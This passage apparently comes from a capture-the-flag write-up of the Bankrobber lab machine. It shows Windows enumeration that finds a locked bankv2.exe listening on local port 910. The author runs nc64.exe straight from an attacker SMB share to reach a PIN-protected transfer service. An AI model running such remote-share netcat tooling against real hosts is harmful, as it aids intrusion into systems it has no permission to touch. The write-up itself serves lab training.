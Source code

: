 We can find an application `bankv2.exe` in the root of the `C:\` drive.

```bash
C:\>dir
 Volume in drive C has no label.
 Volume Serial Number is C80C-B6D3

 Directory of C:\

25-04-2019  19:50            57.937 bankv2.exe
25-04-2019  00:27    <DIR>          PerfLogs
22-08-2019  20:04    <DIR>          Program Files
27-04-2019  16:02    <DIR>          Program Files (x86)
24-04-2019  18:52    <DIR>          Users
16-08-2019  17:29    <DIR>          Windows
25-04-2019  00:18    <DIR>          xampp
               1 File(s)         57.937 bytes
               6 Dir(s)  33.126.555.648 bytes free
C:\>cacls bankv2.exe
C:\bankv2.exe
Toegang geweigerd.

C:\>icacls bankv2.exe
bankv2.exe: Toegang geweigerd.
Successfully processed 0 files; Failed processing 1 files
```

`Toegang geweigerd.` is `Access denied` in Dutch so we can't do anything with this file as `BANKROBBER\Cortin`.

```bash
C:\>netstat -ano | findstr LISTENING
...
  TCP    0.0.0.0:910            0.0.0.0:0              LISTENING       1640
...
C:\>tasklist | findstr 1640
bankv2.exe                    1640                            0        100 K
```

Checking all listening software has one port that sticks out, `910`. This port didn't show up during our NMAP scan, but we can use `nc64.exe` to access it localy.

```bash
C:\>\\10.10.14.16\share\nc64.exe 127.0.0.1 910
--------------------------------------------------------------
 Internet E-Coin Transfer System
 International Bank of Sun church
                                        v0.1 by Gio & Cneeliz
 --------------------------------------------------------------
 Please enter your super secret 4 digit PIN code to login:
 [$] 1234
 [!] Access denied, disconnecting client....

C:\>
```
